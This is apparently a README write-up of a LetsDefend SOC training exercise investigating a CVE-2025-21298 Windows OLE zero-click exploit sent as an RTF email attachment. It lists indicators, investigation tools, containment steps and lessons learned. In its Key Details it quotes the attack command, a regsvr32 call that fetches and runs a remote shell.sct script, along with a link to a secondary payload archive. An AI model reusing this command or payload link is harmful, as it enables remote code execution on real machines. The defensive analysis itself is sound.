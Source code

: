 # SOC336-Windows-OLE-Zero-Click-RCE-Detection

# 📄 Project Title:
**Windows OLE Zero-Click RCE Exploitation - CVE-2025-21298 (SOC336 Detection)**

---

## 📅 Incident Details

- **Event ID**: 314  
- **Event Time**: February 4, 2025, 04:18 PM  
- **Detection Rule**: SOC336 - Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)  
- **Alert Level**: Security Analyst  
- **Classification**: Malware

---

## 📁 Incident Summary

On February 4, 2025, LetsDefend's SIEM triggered an alert for a **zero-click remote code execution (RCE)** exploitation attempt via an RTF attachment exploiting **CVE-2025-21298**.  
An email from `projectmanagement@pm.me` targeting `Austin@letsdefend.io` contained a malicious file (`mail.rtf`), which upon opening, initiated a fileless attack using the **regsvr32.exe** binary.

**Key Details:**

- **Attachment Name**: `mail.rtf`
- **Attachment Hash**: `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184`
- **Threat Command**:
  ```
  C:\Windows\System32\cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll
  ```
- **Malicious IP**: `84.38.130.118` (Latvia | rixhost.lv)
- **Request URL**:
  - `http://84.38.130.118.com/shell.sct`
  - Secondary Payload: [Attachment.zip](https://files-ld.s3.us-east-2.amazonaws.com/attachment.zip)

---

## 🛠️ Tools Used for investigation

- [VirusTotal](https://www.virustotal.com/)
- [AbuseIPDB](https://www.abuseipdb.com/)
- [ChatGPT](https://openai.com/)
- [URLhaus](https://urlhaus.abuse.ch/)

---


## 📸 Screenshots

| Screenshot | Description |
|:-----------|:------------|
| ![Results](/Results.png) | Investigation results overview |
| ![Artifacts](/artifacts.png) | Forensic artifacts collected |
| ![Command Execution](/cmd-run.png) | Command run details (cmd.exe / regsvr32 attack) |
| ![Log Management](/log-management.png) | Logs management and SIEM view |
| ![Raw Logs](/raw-log.png) | Raw event log showcasing payload |
| ![Threat Intelligence](/threat-intel.png) | Threat intel results about IP/domain |
| ![URLhaus Scan](/urlhaus.png) | Malicious URL investigation via URLhaus |
| ![VirusTotal Scan 1](/virustot1.png) | VirusTotal file scan result |
| ![VirusTotal Scan 2](/virustot2.png) | VirusTotal URL analysis result |

---



## 📊 Analysis and Actions Taken

- **Detection**: Malicious RTF identified via pattern matching of CVE-2025-21298.
- **Behavior Observed**: Fileless attack leveraging `regsvr32.exe` to execute remote script.
- **Initial Response**: IP flagged and attachment quarantined.
- **Containment**: Endpoint isolated, email purged across system, URL blocked at network level.
- **Escalation**: Incident escalated to Tier 2 SOC analysts for further forensic investigation.

---

## 🔥 Lessons Learned

- Importance of monitoring **fileless attacks** through behavior-based detection.
- **Zero-click exploits** require rapid detection before payload execution.
- Even **legitimate system binaries** like `regsvr32.exe` can be weaponized by threat actors.

---

## 🔥 Outcome

This exercise reinforced skills in:
- SIEM Log Analysis
- Threat Hunting
- Threat Intelligence Gathering
- Incident Response Documentation

---


## 📂 Project Structure

```bash
SOC336-Windows-OLE-Zero-Click-RCE/
├── README.md
├── email_alert.png
├── attachment_hash.png
├── command_execution.png
│   ├── virus_total_analysis.png
│   ├── abuseipdb_lookup.png
│   ├── urlhaus_submission.png
│   └── soc_alert_details.png
